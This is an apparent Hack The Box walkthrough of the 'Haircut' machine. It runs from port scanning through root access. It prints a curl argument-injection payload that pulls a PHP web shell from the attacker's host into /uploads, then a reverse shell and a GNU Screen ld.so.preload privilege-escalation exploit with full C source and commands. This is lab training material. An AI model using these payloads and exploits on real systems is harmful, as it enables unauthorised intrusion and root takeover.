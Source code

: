 
![logo](/logo.png)

# [Haircut- BOX]  
Hi folks, today I am going to solve an Medium rated hack the box machine which was released on 26 May 2017 as the eight machine on HTB,Haircut created by [r00tkie](https://app.hackthebox.com/users/462) without any further intro, let'sf jump in.

# common enumeration

## Nmap
  *http
  *ssh
  
  
###### code-nmap

```code
nmap -sV -sC -oA nmap/haircut 10.10.10.24
```

###### Output 

![](/Linux/Linux-Medium/Haircut/Screenshoots/nmap.png)

```sh
 nmap -sV -sC -oA nmap/haircut 10.10.10.24                                                                                         ─╯
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-20 04:52 EAT
Nmap scan report for 10.10.10.24
Host is up (0.30s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e9:75:c1:e4:b3:63:3c:93:f2:c6:18:08:36:48:ce:36 (RSA)
|   256 87:00:ab:a9:8f:6f:4b:ba:fb:c6:7a:55:a8:60:b2:68 (ECDSA)
|_  256 b6:1b:5c:a9:26:5c:dc:61:b7:75:90:6c:88:51:6e:54 (ED25519)
80/tcp open  http    nginx 1.10.0 (Ubuntu)
|_http-server-header: nginx/1.10.0 (Ubuntu)
|_http-title:  HTB Hairdresser 
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 39.78 seconds
```

looking at the results  we find out that there are 2 ports open and its a `Ubuntu`and its running an `ngix 1.10.0`. 

port[22]-http
port[80]-nginx

when we naviagate to [http://10.10.10.24](http://10.10.10.24)  we find a page with seem to be a haircut website

![](/Linux/Linux-Medium/Haircut/Screenshoots/haircut.png)

so lets do a `gobuster` so that we can enumerate active directory

```sh
gobuster dir --url http://10.10.10.24 --wordlist
/usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x php -t
50
```

![](/Linux/Linux-Medium/Haircut/Screenshoots/gobuster.png)

We find an `/uploads/` directory, as well as an `exposed.php` endpoint.Lets open the the php file 

![](/Linux/Linux-Medium/Haircut/Screenshoots/exposed.png)

The `exposed.php` endpoint accepts a URL and appears to send a request to it

# Exploitation

We set up a listener with netcat to inspect the raw request

```sh
nc -nlvp 8000
```

We then send a request to our machine's IP via the web application

```sh
http://10.10.14.70:8000
```

![](/Linux/Linux-Medium/Haircut/Screenshoots/test.png)

We can see the curl User-Agent header, indicating that the server likely uses the command-line
utility cURL to make the request. This opens up the target to command injection.
If our input is passed directly to the command, we might be able to append the -o flag to save
the curl output to a file. More specifically, since we can access the `/uploads/` directory on the
web server, we could upload a web shell there and obtain remote code execution.
We first write a PHP web shell into a file:

```sh
echo '<?php system($_GET["cmd"]); ?>' > shell.php
```

![](/Linux/Linux-Medium/Haircut/Screenshoots/shell.png)

Finally, we use the following payload to inject the flag and save the file to the uploads directory

```sh
http://10.10.14.15:8000/shell.php -o uploads/shell.php
```

so when we enter this and hit `Go` we can see that its pulling the shell that i just created

![](/Linux/Linux-Medium/Haircut/Screenshoots/http.png)

![](/Linux/Linux-Medium/Haircut/Screenshoots/upload.png)

when we access the shell from the upload folder we can be able to see that we can access `www`

![](/Linux/Linux-Medium/Haircut/Screenshoots/www.png)

We can leverage this to an interactive shell by using a pre-made [PHP reverse shell ](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)  script.We change the $ip and $port parameters and proceed to upload the script in the same fashion
as before.

so lets go and upload this interactive shell

```sh
http://10.10.14.15:8000/php-reverse-shell.php -o uploads/php-reverse-shell.php
```

we can see that the file has been uploaded so lets execute it to get shell

![](/Linux/Linux-Medium/Haircut/Screenshoots/exploit.png)

![](/Linux/Linux-Medium/Haircut/Screenshoots/revershell.png)

## Takeover
 After geting the reverse shell we have to do some adjusment to our reverse shell to make it ready for using by doing a stty escalation to get an interactive shell:
#### code-stty
 ```bash
 python3 -c 'import pty;pty.spawn("/bin/bash")'
 [ctrl] + z
 stty raw -echo ; fg
 ```

```sh
export TERM=screen-256color
export SHELL=bash
stty rows 29 cols 135
reset
```

we can now get the user flag

![](/Linux/Linux-Medium/Haircut/Screenshoots/user.png)

# Privillage Escalation

We run the `LinEnum`  to see what might be vulnerable 

![](/Linux/Linux-Medium/Haircut/Screenshoots/LinEnum.png)


![](/Linux/Linux-Medium/Haircut/Screenshoots/screen.png)

Researching this version leads us to [Exploit-DB](https://www.exploit-db.com/exploits/41154), where there is a public exploit for this tool.We will run the script's steps manually, to better understand the vulnerability and resolve any
errors that might arise. We will use /tmp for our exploit-related files

We start by creating the libhax.c file on the target machine, by running this command:

```sh
cat << EOF > /tmp/libhax.c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
chown("/tmp/rootshell", 0, 0);
chmod("/tmp/rootshell", 04755);
unlink("/etc/ld.so.preload");
printf("[+] done!\n");
}
EOF
```

```sh
export PATH=/usr/bin:$PATH
```

ext, we try compiling it with gcc :

```sh
gcc -fPIC -shared -ldl -o /tmp/libhax.so /tmp/libhax.c
```

We re-run the gcc command, which results in a warning, but successfully compiles the shared
object

![](/Linux/Linux-Medium/Haircut/Screenshoots/libhax.png)

Next, we save the rootshell.c file:

```sh
cat << EOF > /tmp/rootshell.c
#include <stdio.h>
int main(void){
setuid(0);
setgid(0);
seteuid(0);
setegid(0);
execvp("/bin/sh", NULL, NULL);
}
EOF
```

```sh
gcc -o /tmp/rootshell /tmp/rootshell.c
```

![](/Linux/Linux-Medium/Haircut/Screenshoots/rootshell.png)

```sh
cd /etc
umask 000
screen -D -m -L ld.so.preload echo -ne "\x0a/tmp/libhax.so"
screen -ls
/tmp/rootshell
```

After running the command sequence, we find ourselves in a shell as root :

![](/Linux/Linux-Medium/Haircut/Screenshoots/etc.png)

Then we get root `flag.txt`  

![](/Linux/Linux-Medium/Haircut/Screenshoots/root.png)


